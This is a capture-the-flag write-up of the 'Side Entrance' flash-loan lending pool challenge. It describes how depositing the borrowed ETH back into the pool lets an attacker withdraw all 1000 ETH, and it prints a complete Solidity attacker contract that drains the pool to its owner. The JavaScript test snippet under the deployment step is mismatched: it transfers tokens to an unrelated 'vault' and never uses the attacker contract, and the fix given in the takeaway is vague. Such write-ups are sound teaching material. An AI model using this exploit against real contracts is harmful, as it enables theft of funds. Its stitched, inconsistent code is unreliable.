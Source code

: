 # Summary

## Original Contract and Challenge

The SideEntranceLenderPool contract allows users to deposit and withdraw ETH. It also offers free flash loans using the deposited ETH to promote the system. The challenge is to drain all 1000 ETH from the pool, starting with an initial balance of 1 ETH.

## Vulnerability

The vulnerability lies in the `flashLoan()` function of the SideEntranceLenderPool contract. It allows any contract to call its `execute()` function with the loaned amount:

```solidity
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

This is risky because it exposes the contract to potentially malicious implementations of the execute() function.

## Exploit

The exploit involves creating an attacker contract (AttackSideEntrance) with the following functions:

`attack(uint256 amount)`: Calls the `flashLoan()` function in the vulnerable contract to borrow the specified amount, then calls the `withdraw()` function.
`execute()`: Called by the vulnerable contract, this function deposits the borrowed ETH back into the pool, updating the internal balances mapping.
receive(): Transfers the stolen ETH to the attacker's address.

```solidity
contract AttackSideEntrance {
    SideEntranceLenderPool pool;
    address payable owner;

    constructor(address _chal) {
        pool = SideEntranceLenderPool(_chal);
        owner = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
    }

    function execute() external payable {
        pool.deposit{value: address(this).balance}();
    }

    receive() external payable {
        owner.transfer(address(this).balance);
    }
}
```

## Deploy the attacker contract.

Call the `attack()` function, borrowing all ETH from the pool and depositing it back.
The vulnerable contract's `flashLoan()` function completes successfully.
The attacker contract's attack() function calls withdraw() to drain all ETH from the pool.

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE */

  const attackTokenContract = token.connect(player);
  await attackTokenContract.transfer(
    vault.address,
    INITIAL_PLAYER_TOKEN_BALANCE
  );
});
```

## Takeaways

To avoid such vulnerabilities, it is crucial to follow best practices when making external calls and not to trust other contracts blindly. Implementing the transfer execution within the `flashLoan()` function instead of delegating it to an unknown external contract would have made the SideEntranceLenderPool contract more secure.
